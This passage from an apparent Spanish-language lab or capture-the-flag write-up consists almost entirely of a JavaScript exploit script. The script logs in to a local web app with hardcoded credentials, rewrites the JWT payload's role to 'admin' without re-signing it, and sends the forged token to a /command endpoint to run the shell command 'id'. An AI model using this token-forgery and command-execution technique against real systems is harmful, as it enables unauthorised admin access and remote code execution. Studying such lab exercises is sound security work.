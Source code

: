 Podemos hacerlo de forma manual o usando el siguiente script, que lo automatiza. Volvemos a editar nuestro fichero `script.js`:

```javascript
var command = "id";

// Petición para realizar el login y obtener el token actualizado.
petition1 = new XMLHttpRequest();
petition1.open('POST', 'http://localhost:3000/login', true);
petition1.setRequestHeader('Content-Type', 'application/json');

// Petición para ejecutar el comando.
petition2 = new XMLHttpRequest();
petition2.open('POST', 'http://localhost:3000/command', true);
petition2.setRequestHeader('Content-Type', 'application/json');

function base64urlDecode(str) {
    // Reemplaza caracteres específicos de Base64URL
    str = str.replace(/-/g, '+').replace(/_/g, '/');
    // Añadir padding si es necesario
    while (str.length % 4) {
        str += '=';
    }
    return atob(str);
}

function base64urlEncode(str) {
    return btoa(str)
        .replace(/\+/g, '-')
        .replace(/\//g, '_')
        .replace(/=+$/, '');
}

petition2.onload = () => {
    document.write("Resultado");
    document.write(petition2.responseText);
}

petition1.onload = () => {
    // Obtenemos el token JWT y lo separamos en sus partes.
    let tokenParts = JSON.parse(petition1.responseText).token.split(".");

    // Decodificamos la parte del payload y la convertimos en objeto.
    let payloadDecoded = JSON.parse(base64urlDecode(tokenParts[1]));

    // Modificamos el role del usuario.
    payloadDecoded.role = "admin";

    // Codificamos otra vez el payload modificado.
    tokenParts[1] = base64urlEncode(JSON.stringify(payloadDecoded));

    // Reconstruimos el token modificado.
    let tokenModificado = tokenParts.join(".");

    sendSecondPetition(tokenModificado);
}

function sendSecondPetition(tokenModificado) {
    petition2.send(`{"token":"${tokenModificado}","command":"${command}"}`);
}

petition1.send('{"username":"Jose","password":"FuLqqEAErWQsmTQQQhsb"}');
```
